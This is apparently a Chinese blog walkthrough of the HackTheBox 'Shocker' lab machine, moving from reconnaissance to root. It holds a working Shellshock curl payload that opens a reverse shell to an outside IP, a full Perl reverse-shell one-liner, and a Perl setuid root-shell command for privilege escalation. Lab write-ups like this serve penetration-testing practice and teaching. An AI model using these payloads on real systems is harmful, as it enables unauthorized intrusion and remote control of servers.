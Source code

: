 ```yaml
---
title: Shocker
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_20.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# shocker

- **shocker**是hackthebox上的一台靶机

### 信息收集

- nmap查看端口以及漏洞

![image-20211012001541688](http://cdn.mxrblog.cn/image-20211012001541688.png)

- 靶机开启了80端口，使用浏览器查看一下：

![image-20211012203221880](http://cdn.mxrblog.cn/image-20211012203221880.png)

- 网页上只显示了一张图像，没有其他的线索，使用dirsearch查看目录
- 第一次查看发现目录cgi-bin有东西，第二次进一步检索，发现该目录里有可执行文件user.sh

![image-20211012205731556](http://cdn.mxrblog.cn/image-20211012205731556.png)

- 使用工具curl查看user.sh的内容

![image-20211012210545863](http://cdn.mxrblog.cn/image-20211012210545863.png)

- 尝试向user.sh这个可执行脚本文件中发送反弹shell的代码,并在靶机上nc监听

`curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.23/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh`

![image-20211012211112986](http://cdn.mxrblog.cn/image-20211012211112986.png)

![image-20211012211127541](http://cdn.mxrblog.cn/image-20211012211127541.png)

- user.sh文件是需要root权限才能够执行，我们需要从其他地方下手
- 使用sudo -l 来查看是否有当前用户能够执行root权限的行动

![image-20211012213008319](http://cdn.mxrblog.cn/image-20211012213008319.png)

- 可以使用perl语言进行反弹shell

```
perl -e 'use Socket;$i="10.10.14.23";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20211012213717937](http://cdn.mxrblog.cn/image-20211012213717937.png)

![image-20211012213800327](http://cdn.mxrblog.cn/image-20211012213800327.png)



- 得到user.txt 和root.txt

![image-20211012213913480](http://cdn.mxrblog.cn/image-20211012213913480.png)

![image-20211012214052223](http://cdn.mxrblog.cn/image-20211012214052223.png)

- 或者使用以下perl命令获得root shell

```
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![image-20211012214435236](http://cdn.mxrblog.cn/image-20211012214435236.png)
